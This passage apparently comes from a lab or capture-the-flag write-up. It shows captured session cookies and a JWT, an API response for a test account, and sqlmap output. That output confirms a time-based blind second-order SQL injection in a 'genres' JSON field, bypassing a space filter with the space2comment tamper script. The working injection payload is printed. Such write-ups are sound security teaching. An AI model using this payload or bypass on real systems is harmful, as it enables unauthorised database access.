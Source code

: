 ```
Cookie: XSRF-TOKEN=eyJpdiI6InUzYUFNMGVwcTQxUlF0QlV6Z1lTRGc9PSIsInZhbHVlIjoiWXF6VFdTRUxKNjg0SE5Vc0syMXNZNlBGMmMrdmZ2ZzZPNmV1WEdHMko5WTErY2NPeXBUM3M3WUpSRzhKQVNaSDNIRmZreC9KQXFwczgvYzFLT1lXUldWcVV0U0piMTdkaVZHVXZDTmpTbE9hcytPa3NpYnRwRkNSVVFISFlMaDMiLCJtYWMiOiJhMWU5OGFhOTYxYzgwOTBlYzFiZmQzNmE3OWYyYTVlNzA4YzYyYmNlMzc4MDYxNTIyMTM4NGQ4YTJkODY0N2FhIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6Ik4xbnZ0UjRrMVlOQjA3MFNRR2ovTXc9PSIsInZhbHVlIjoiWTJKbW9WUWdjczRFR3B1VkRDWFE4NkFSdklsZFh3UFhBNGxnTFltTER2YkhwaHN6TmVHWndPSVJna2FKM09RK3ZRSG1rb1NYaTQvYVJ1Yzd4dnN4d3RVVGVlNzVaeDFKNVpsUmtkRkZBR3BpSjdySklzYUxSYnJLc0YzQksxU3UiLCJtYWMiOiJkMzVlMjZjNDE4YmNjOGZlNGYxMmZmNzY0OGQ4ZjE3YzZlYjAzMDFjMjRhNjAxNTRmZmU0OGMxMGMxMmNhZGUxIiwidGFnIjoiIn0%3D; token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNjk3Mjg0NjU0LCJleHAiOjE2OTczMDYyNTQsIm5iZiI6MTY5NzI4NDY1NCwianRpIjoiZzZzNTZReGFoRG16SFNuZyIsInN1YiI6IjMxIiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.tnyyIOfboawY1Wmw6jIJF_GgwKMG8AqUDzrfV-u6H2k

```
**Response**
```
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Content-Type: application/json
Connection: close
Cache-Control: no-cache, private
Date: Sat, 14 Oct 2023 13:36:41 GMT
X-RateLimit-Limit: 3600
X-RateLimit-Remaining: 3599
Access-Control-Allow-Origin: *
X-Frame-Options: SAMEORIGIN
X-XSS-Protection: 1; mode=block
X-Content-Type-Options: nosniff
Content-Length: 199

{"status":"success","data":{"id":31,"name":"test","email":"Calico1@nomail.com","created_at":"2023-10-14T11:57:28.000000Z","updated_at":"2023-10-14T13:34:30.000000Z","admin":0,"genres":"Thisisatest"}}

```

Knowing this we can add the space2comment sqlmap tamper script. This script basically replaces all spaces to comments to achieve the same effect as a space without using these characters

After a few moments we got the following message showing that this function was indeed vulnrable to Second hand SQLI injection 
```
[09:42:25] [INFO] checking if the injection point on (custom) POST parameter 'JSON genres' is a false positive
(custom) POST parameter 'JSON genres' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 62 HTTP(s) requests:
---
Parameter: JSON genres ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"genres":"TEST') AND (SELECT 2318 FROM (SELECT(SLEEP(5)))Ufyb) AND ('SOBr'='SOBr"}
---
```
